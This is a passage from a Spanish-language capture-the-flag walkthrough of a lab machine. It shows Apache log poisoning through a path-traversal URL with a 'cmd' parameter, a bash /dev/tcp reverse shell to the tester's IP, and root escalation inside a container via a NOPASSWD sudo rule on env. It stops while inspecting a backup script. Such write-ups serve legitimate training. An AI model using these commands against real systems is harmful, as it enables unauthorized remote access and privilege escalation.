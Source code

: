 - Le damos en `SEND` y ya estaría envenenado el archivo de logs Apache, lo que resta por hacer es comprobarlo enviándole con el parámetro "cmd" algún comando:

```
view-source:http://10.10.7.140/?view=/cat/../var/log/apache2/access.log&ext&cmd=ls -l /
```


- Confirmamos el `RCE` y ahora entablamos una reverse shell básica, haciendo su respectivo tratamiento.

```
view-source:http://10.10.7.140/?view=/cat/../var/log/apache2/access.log&ext&cmd=bash -c "bash -i >& /dev/tcp/10.18.101.123/443 0>&1"
```

# ESCALANDO PRIVILEGIOS:

- Habiendo ganado acceso al sistema, haciendo un "hostname -i" nos damos cuenta que la dirección IP no coincide con la que debería tener, por lo que deducimos que estamos dentro de un `contenedor` y no de la máquina real.

- Buscamos formas para escapar del actual contenedor.

- Vemos permisos de `sudoers` y vemos lo siguiente:

```js
www-data@2ad93fca4fbd:/opt/backups$ sudo -l
Matching Defaults entries for www-data on 2ad93fca4fbd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 2ad93fca4fbd:
    (root) NOPASSWD: /usr/bin/env
```

- Es decir, podemos ejecutar el binario `"env"` como `root` sin contraseña, esto lo podemos explotar de acuerdo a una simple búsqueda en [GTFOBins](https://gtfobins.github.io/#p) con el siguiente comando:

```bash
$sudo env /bin/bash
```

- Lo ejecutamos y seremos `root`, sin embargo seguimos dentro del contenedor y no de la máquina real, lo cual no mola.

- Si buscamos en el directorio "/opt" vemos un directorio "/backup" el cual contiene dos archivos: "backup.sh" y "backup.tar"

- Cateamos la script:

```bash
$cat backup.sh 
```

```
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
